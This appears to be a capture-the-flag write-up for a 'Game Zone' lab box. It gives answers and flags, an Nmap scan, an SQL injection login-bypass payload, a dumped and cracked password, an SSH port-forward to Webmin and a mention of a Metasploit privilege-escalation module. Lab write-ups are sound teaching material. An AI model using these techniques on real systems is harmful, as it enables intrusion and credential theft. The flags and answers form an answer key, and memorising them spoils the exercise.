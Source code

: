 # Game Zone
##### Question 1: What is the name of the large cartoon avatar holding a sniper on the forum?
Answer
```bash
agent 47
```

##### Question 2: When you've logged in, what page do you get redirected to?
Answer
```bash
portal.php
```

##### Question 3: he users table, what is the hashed password?
Answer
```bash
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 
```

##### Question 4: What was the username associated with the hashed password?
Answer
```bash
agent47
```

##### Question 5: What was the other table name?
Answer
```bash
post
```

##### Question 6: What is the de-hashed password?
Answer
```bash
videogamer124
```

##### Question 7: User flag
Answer
```bash
649ac17b1480ac13ef1e4fa579dac95c
```

##### Question 8: How many TCP sockets are running?
Answer
```bash
5
```

##### Question 9: What is the name of the exposed CMS?
Answer
```bash
webmin
```

##### Question 10: What is the CMS version?
Answer
```bash
1.580
```

##### Question 11: root flag
Answer
```bash
a4b945830144bdd71908d12d902adeee
```

- - - - - - - - - - - - - - - - - - -  - - - - -

Nmap Scan:
```bash

Nmap scan report for 10.10.231.126
Host is up (0.10s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   36.48 ms  10.6.0.1
2   ... 3
4   103.02 ms 10.10.231.126

```

Login Form vulnerable to SQL Injection
```bash
admin' or 1=1---
```

Search on Portal.php is vulnerable to SQL Injection
![[Pasted image 20211219122834.png]]

Users Database Dumped
```bash
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47 
```
cracked password: videogamer124

SSH Creds: 
```bash
agent47:videogamer124
```

Reverse SSH tunnel:
```bash
ssh -L 10000:localhost:10000 agent47@10.10.231.126
```

webmin login was resused creds of agent47

Metasploit module for webmin version - priv esc to root

